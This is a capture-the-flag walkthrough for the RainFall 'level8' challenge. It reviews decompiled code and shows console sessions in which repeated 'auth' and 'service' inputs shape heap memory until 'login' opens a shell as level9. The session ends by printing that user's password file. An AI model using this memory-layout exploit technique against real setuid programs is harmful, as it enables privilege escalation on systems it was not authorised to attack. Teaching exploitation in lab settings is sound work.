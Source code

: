 level8
======

*	We spawn with a [level8](source/level8) executable
	```console
	level8@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
	level8@RainFall:~$ ./level8 
	(nil), (nil) 
	test
	(nil), (nil) 
	test
	```
*	Using ghidra on the program made me sick, this is the [base code](source/level8.c), but I tried to make it more readable for the sake of the correction, here is the [better code](source/level8_better.c). Let's review it :
	-	Infinite loop that takes two inputs `fgets` with a `BUFFER_SIZE=128`
		-	`printf` addresses of `auth` and `service`
		-	`return 0` if wrong input
		-	check for keywords `auth - reset - service - login` with `strncmp`
			-	`auth`:	
				-	`calloc(8)` the `auth[0]`
				-	`strcpy` the content of `tempBuffer` if its less than 30 char length into `auth`
			-	`reset`: `free(auth)`
			-	`service`: `strdup()` the `serviceBuffer` into `service[0]`
			-	`login`:
				-	if `auth != NULL` :
					-	if `auth[8] == 0` prompt to enter a password
					-	else launch a `/bin/sh`
*	To be fair it is quite the disgusting code. The point here is to make it so `auth[8]*4 -> 32nd bytes since its an array of 4 bytes` is equal to `0`.
*	Let's try the program:
	```console
	level8@RainFall:~$ ./level8 
	(nil), (nil) 
	auth 
	0x804a008, (nil) 
	service
	0x804a008, 0x804a018 
	```
	Since We have the address we can see a difference of `0x804a018 - 0x804a008 = 16 bytes`. Which means that adding another service command (remember that it dup again) should get us exactly at `auth[32]`
	```console
	[...]
	service
	0x804a008, 0x804a028 
	```
	So `0x804a028 - 0x804a008 = 0x20 -> 32`. We should be able to use the `login` command and get a shell.
	```
	[...]
	login
	$ whoami
	level9
	$ cat /home/user/level9/.pass  
	c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
	```